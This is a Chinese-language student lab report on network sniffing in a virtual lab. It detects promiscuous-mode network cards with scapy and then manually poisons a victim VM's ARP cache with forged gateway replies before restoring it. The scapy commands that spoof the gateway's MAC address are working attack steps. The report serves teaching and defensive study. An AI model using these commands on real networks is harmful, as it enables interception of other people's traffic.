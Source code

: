 # 实验四 网络监听

## 一、实验环境

- 网络拓扑

- 攻击者主机（kali attacker)
  - 10.211.55.5
  - 00:1c:42:8c:bc:96/eth0
- 靶机(kali victim)
  - 10.211.55.6
  - 00:1c:42:1d:6c:8f/eth0
- 网关(Debian GNU Linux 10.10 ARM64)
  - 10.211.55.8
  - 00:1c:42:00:00:18

![top2](img/top2.jpg)

## 二、实验内容

- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的ARP缓存

## 三、实验步骤

### 1.在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scapy](img/安装scapy.jpg)

### 2.检测局域网中的异常终端

```
# 在靶机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![检查混杂模式](img/检查混杂模式.jpg)

```
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

![开启scapy](img/开启scapy.jpg)

```bash
在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("10.211.55.6")
```

![scapy执行](img/scapy执行.jpg)

```bash
# 回到靶机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![出现promisc](img/出现promisc.jpg)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("10.211.55.6")
```

![又一次scapy执行](img/又一次scapy执行.jpg)

```bash
# 在靶机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![关闭混杂模式](img/关闭混杂模式.jpg)

查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，靶机才能收到这个数据包。

在靶机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

### 3.手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网关的mac地址

  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="10.211.55.8")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![获取mac地址](img/获取mac地址.jpg)

  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  ![拿到网关mac](img/拿到网关mac.jpg)

- 伪造网关的ARP响应包

  ```bash
  # 攻击者主机准备发送给靶机 10.211.55.6
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="10.211.55.8", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  
  # 发送上述伪造的 ARP 响应数据包到靶机
  sendp(arpspoofed)
  ```

  ![forge_arp](img/forge_arp.jpg)

  此时在靶机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

  ```bash
  ip neigh
  ```

  ![forge_arp](img/forge_arp.jpg)

- 恢复靶机的ARP缓存记录（回到攻击者主机上的scapy交互式终端继续执行命令）

  ```bash
  ## 伪装网关给靶机发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="10.211.55.8", hwsrc="00:1c:42:00:00:18", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![recovery](img/recovery.jpg)

  此时在靶机上准备“刷新”网关 `ARP` 记录。

  ```bash
  ## 在靶机上尝试 ping 网关
  ping 10.211.55.8
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看靶机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![victim_recovery](img/victim_recovery.jpg)

## 四、参考资料

[网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
